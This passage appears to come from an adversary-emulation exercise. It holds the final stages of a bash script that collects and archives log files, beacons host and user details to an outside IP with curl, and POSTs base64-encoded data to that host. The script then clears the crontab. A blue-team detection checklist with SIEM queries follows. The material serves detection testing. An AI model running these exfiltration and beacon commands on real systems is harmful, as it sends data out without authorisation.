 # Stage 9: Collection
echo "[Stage 9] Collection"
find /tmp -type f -name "*.log" -exec cat {} \; > /tmp/collected.txt 2>/dev/null
tar czf /tmp/exfil_data.tar.gz /tmp/*.log 2>/dev/null
sleep 5

# Stage 10: Command and Control
echo "[Stage 10] Command and Control"
curl -s http://198.51.100.25:8080/beacon -d "hostname=$(hostname)&user=$(whoami)" > /dev/null 2>&1
sleep 5

# Stage 11: Exfiltration
echo "[Stage 11] Exfiltration"
base64 /tmp/exfil_data.tar.gz > /tmp/encoded_data.txt
curl -X POST -d @/tmp/encoded_data.txt http://198.51.100.25:443/upload > /dev/null 2>&1
sleep 5

# Cleanup (for exercise)
echo "[Cleanup] Removing artifacts"
kill $MALWARE_PID 2>/dev/null
crontab -r 2>/dev/null
rm -f /tmp/payload.sh /tmp/collected.txt /tmp/exfil_data.tar.gz /tmp/encoded_data.txt
rm -f ~/.config/autostart/updater.desktop

echo "Exercise complete: $(date)"
```

**Blue Team Detection Checklist:**

```markdown
## Detection Validation Checklist

### Stage 1: Reconnaissance
- [ ] Port scan detected by Suricata
- [ ] Network scanning pattern in Zeek logs
- [ ] Unusual DNS query volume

**Query:** `event.type: "network" AND event.action: "port_scan"`

### Stage 2: Initial Access
- [ ] Suspicious download detected
- [ ] New executable in uncommon location
- [ ] File created from network source

**Query:** `file.path: "/tmp/*.sh" AND event.action: "creation"`

### Stage 3: Execution
- [ ] New process spawned from /tmp
- [ ] Unusual parent-child process relationship
- [ ] Process execution outside standard paths

**Query:** `process.executable: "/tmp/*" AND event.action: "process_start"`

### Stage 4: Persistence
- [ ] Crontab modification detected
- [ ] Autostart file created
- [ ] New scheduled task

**Query:** `file.path: ("/var/spool/cron/*" OR "*/.config/autostart/*")`
```